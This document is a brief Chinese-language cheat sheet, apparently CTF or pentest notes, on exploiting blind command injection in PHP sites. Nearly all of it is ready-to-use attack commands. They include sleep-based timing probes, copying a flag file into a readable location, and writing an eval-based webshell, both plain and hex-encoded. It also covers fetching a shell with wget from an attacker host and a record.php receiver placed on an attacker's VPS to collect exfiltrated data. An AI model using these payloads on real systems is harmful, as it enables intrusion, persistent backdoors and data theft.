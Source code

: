 ## 无回显

### Shell_exec等无回显函数

#### 1、sleep()

```sh
eg：ls;sleep(5);
```

#### 2、执行命令

> 利用条件：需要站点目录具有写权限

用压缩、复制、写shell等方法对其进行绕过（此处要注意权限，看是否有写的权限）

```sh
copy flag 1.txt
mv flag 1.txt
cat flag > 1.txt
tar zcvf flag.tar.gz flag
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php
echo "<?php @eval($_POST['suifeng']); ?>" > webshell.php
```

利用上述操作产生新的文件，然后我们在对新的文件进行访问

#### 3、写webshell

**直接写入**

```sh
echo 3c3f706870206576616c28245f504f53545b3132335d293b203f3e|xxd -r -ps > webshell.php
echo "<?php @eval(\$_POST[123]); ?>" > webshell.php
```

**外部下载**

> 利用条件：目标服务器可以连接外网或可以与攻击机互通，且能执行wget命令

```sh
wget 网址 -O webshell.php #使用wget下载shell，使用参数-O来指定一个文件名
```

#### 4、利用VPS

用vps建立记录脚本

1、首先在自己的公网ip的网站目录下建立一个record.php的文件，里面写下如下代码

```php
<?php
    $data =$_GET['data'];
    $f = fopen("flag.txt", "w");
    fwrite($f,$data);
    fclose($f);
    ?>
```
